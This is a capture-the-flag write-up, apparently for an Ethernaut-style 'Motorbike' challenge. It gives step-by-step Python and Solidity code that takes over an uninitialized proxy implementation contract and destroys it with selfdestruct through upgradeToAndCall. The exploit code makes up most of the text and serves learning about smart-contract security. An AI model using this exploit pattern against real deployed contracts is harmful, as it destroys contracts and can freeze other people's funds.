 1. Find the implementation address of the Engine contract

```python
# find engine contract implementation
storage_position_impl_address = hex(int(web3.sha3(text='eip1967.proxy.implementation').hex(),16)-1)
implementation_address = f'0x{web3.eth.get_storage_at(motorbike.address, storage_position_impl_address).hex()[-40:]}'

# load Engine contract
eg = Engine.at(implementation_address)
```

2. Call `initialize()` in the Engine contract

```python
# initialize the engine implementation
eg.initialize(_from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x79c0e38730d584e33f5e291452c09ae91542f349bd8772dedf451b4d58b3275a

3. Deploy a BombEngine contract (at: `0x89a05702875f0c18FF5B28640ea3DdE39FDe6E47`) with only a single function that can self destruct such contract

```js
function boom() public {
    selfdestruct(address(0));
}
```

```python
# deploy our bomb engine contract
be = BombEngine.deploy(_from)
```
4. Call `UpgradeToAndCall()` in the Engine implementation contract as described in [solution](#solution-23).

```python
# call upgradeToAndCall() to selfdestruct the Engine implementation contract
selfdestruct_call = be.boom.encode_input()
eg.upgradeToAndCall(be.address, selfdestruct_call, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x93e405003cb3065ae97a1c2d493eeba85a9b5f85f1db6b4fa0d27f3847ee23b6

5. Confirm that the contract has been successfully destroyed by checking if we can call the getter function for one of the state variables, in this case `upgrader()`

```python
try:
    # call the getter function
    eg.upgrader()

    # print if it didnt fail
    print('The contract was not successfully self destructed')

    # return that it failed
    return False
except:
    # print if it failed
    print('The contract was successfully self destructed')
    
    # return that it succeeded
    return True
```
